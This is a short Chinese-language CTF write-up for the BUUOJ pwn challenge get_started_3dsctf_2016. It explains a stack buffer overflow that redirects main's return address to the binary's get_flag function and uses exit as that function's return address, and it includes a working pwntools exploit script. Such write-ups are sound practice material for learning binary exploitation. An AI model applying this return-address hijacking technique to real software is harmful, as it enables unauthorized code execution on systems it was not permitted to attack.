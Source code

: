 ```yaml
---
title: get_started_3dsctf_2016
tags: [ctf-pwn,exp]
date: 2023-4-21 14:12:00
categories: [ctf-pwn]
excerpt: exp
---
```


**题目**

https://buuoj.cn/challenges#get_started_3dsctf_2016

一道十分简单的栈溢出，将main的返回地址移交给自带的get_flag函数

把这道题列出来的原因在于，程序没有开启标准输入输出，

如果单纯执行完get_flag不设置一个正确的返回地址，这个函数里的输出显示不出来

（详细原因目前也不是很清楚）



**Exp**

针对上述问题，选择exit函数作为get_flag的返回地址（不能放一个空着的p32(0)进去）

```python
from pwn import *
from LibcSearcher import *

#p = remote("node4.buuoj.cn",27230)
p = process('./get_started_3dsctf_2016')

elf = ELF('./get_started_3dsctf_2016')

get_flag = 0x80489A0
param1 = 0x308CD64F
param2 = 0x195719D1

sleep(0.1)
payload = b'a'*56 + p32(get_flag) +p32(0x0804E6A0) + p32(param1) + p32(param2)

p.sendline(payload)

p.interactive()

```


